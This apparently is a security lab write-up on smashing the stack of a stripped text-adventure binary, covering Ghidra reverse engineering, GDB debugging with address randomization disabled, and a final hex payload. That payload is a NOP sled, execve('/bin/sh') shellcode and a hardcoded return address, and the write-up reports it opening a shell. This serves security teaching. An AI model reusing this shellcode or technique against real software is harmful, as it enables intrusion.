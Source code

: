 # Buffer Overflow Attack

Performing Buffer Overflow attack using stack smashing approach to obtain the shell. Given a C compiled vulnerable software, with the help of reverse engineering and debugging the attack had to be conducted to obtain the shell.

## Prepare Ubuntu VM
Follow these steps to setup the VM and import the binary:
1. Install the prerequisite libncurses5-dev
        
        apt-get install libncurses5-dev
2. Make the adevture-qnx folder 

        mkdir /usr/share/adventure-qnx/
3. Copy the adven[1-4].txt files from the zip file into /usr/share/adventure-qnx/

        sudo cp ./advent*.txt  /usr/share/adventure-qnx/
4. Try running the binary file (if the file is not executable change the mode).

        ./adventurev3_stripped
    ![Running the Binary](./images/A1_running_binary.png)

## Reverse Engineer Using Ghidra
Follow these steps to reverse engineer the binary using Ghidra:
1. Import the 64-bit Linux Binary into Ghidra ()

    ![Importing the Binary](./images/B1_import_binary.png)
2. After Ghidra analyses the binary, by going through the SymbolTree a vulnerable memory function is found that this software uses. This function is found to be "memcpy", a vulnerable C function that is being used by this application.

    ![Finding Vulnerable Funciton](./images/B2_find_memcpy.png)
3. Using this knowledge the vulnerable function call that calls this function can be observed and also a Functon Call Graph can be plotted correspondingly.

    The vulnerable function is found as:

    ![Finding Vulnerable Funciton](./images/B3_get_vuln_func.png)

    The Functon Call Graph is obtained as:

    ![Plotting Function Call Graph](./images/B4_Func_CallGraph.png)

4. By going through the Function Call Graph it can identified that there is backdoor function that calls out this newly identified vulnerable function. 


    ![Backdoor Function](./images/B5_backdoor.png)

    It is seen that the backdoor function can be accessed by the easter egg code "unlock easteregg". This can be used to access the vulnerable function and exploit the memcpy function call.

## Debugging using Eclipse

Initially we have to setup the debugging environment:
1. Set GDB command file `~/.gdbinit` with the following content:

        set disassembly-flavor intel
        set disable-randomization on
2. Set Address Space Randomization off with the following command: 

        sudo sysctl kernel.randomize_va_space=0
3. Eclipse is used for debugging, initially a C/C++ project (C Managed and Linux GCC toolchain) is created and the binary file along with the associated text files are copied. 

4. Now the remote debug configurations for the project is set. This is done by providing the application path in the debug configurations.

    ![Debug Configurations 1](./images/C1_debug_conf.png)

    The location of the GDB command file is also specified as `~/.gdbinit`:

    ![Debug Configurations 2](./images/C2_debug_conf.png)

5. Upon debugging the dissasembly can be viewed. The debugger can be paused to analyze the disassembly. 

    ![Debug Output](./images/C3_debug_output.png)

6. The easteregg code `unlock easteregg` that was found by reverse engineering can be used to access the vulnerable function. A break point was placed where the `memcpy` function is being called.

    ![Adding Breakpoint](./images/C4_break_point.png)

7. Use instruction stepping mode to analyze the memory for the register `$rbp`  after providing inputs for the vulnerable function. Initially a small length of `32` is provided as the first input.

    ![Input Length 1](./images/C5_input_length.png)

    Correspongingly input of 32 `\x12` is provided for argument2. This input can be seen in the memory browser of `$rbp`.

    ![Input Text 1](./images/C6_input_text.png)

8. This knowledge can be used to construct a string of a particular length that can crash the application. By providing the input for length as `300` for argument1 and as 300 `\x90` for argument2, it is seen that the program crashes.

    ![Program Crash](./images/C7_prgm_crash.png)

    ![Program Crash](./images/C8_prgm_crash.png)

9. It is observed that the $rbp points to the address "0x00007FFFFFFFDEF0" from the Registers view and the local variables are written from the address "0x00007FFFFFFFDD18" from the stack frame.

    ![Register Addresses](./images/C9_registers_addr.png)

10. With this knowledge a shellcode can be constructed, the C code stacksmashexploit.c can be used or a hexadecimal string consisting of shellcode in the middle and the return address of the shellcode present at the end should be provided. 

    The format will be similar to \<NOP sled\> \<ShellCode\>\<more NOPs\> \<return address of shellcode\> \<valid return address\>. The NOPs are placed such that the $rbp register will point towards the shellcode.

    Using this knowledge following string of length 232 was constructed: 

    \x90\x90\x90\x90\x90\x90\x90\x90\x90\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\x48\x89\xd7\xb0\x3c\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x18\xDD\xFF\xFF\xFF\x7F\x00\x00\x18\xDD\xFF\xFF\xFF\x7F\x00\x00

    Here the return adddress is provided as the beginning of the stack which is `0x00007FFFFFFFDD18` where the shellcode is placed after a few NOPs.
    
    Providing 232 and this string as the input for the arguments we will able to obtain the shell as shown below:

    ![Stack Smash](./images/C10_stack_smash.png)


    Hence the stack smashing was successful and the shell was obtained.
